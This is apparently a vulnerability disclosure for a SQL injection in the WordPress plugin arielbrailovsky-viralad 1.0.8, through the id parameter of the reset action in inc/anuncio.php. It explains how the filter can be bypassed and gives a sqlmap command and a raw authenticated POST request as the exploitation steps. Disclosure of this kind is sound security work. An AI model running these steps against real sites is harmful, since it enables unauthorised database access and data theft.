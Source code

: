 ### The data reset interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: reset records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=2&accion=reset&nocache=0.8101696846894093&security=jltxw2pv7ui15k6ghf8q]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is reset, the incoming ID will be directly obtained and processed by the limpia function, and then directly spliced into the SQL query statement for execution.

![image-20250302202815587](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302202815587.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302202853082](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302202853082.png)

Therefore, attackers can easily construct malicious SQL injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 74
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=2&accion=reset&nocache=0.8101696846894093&security=jltxw2pv7ui15k6ghf8q
```

![image-20250302203112295](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302203112295.png)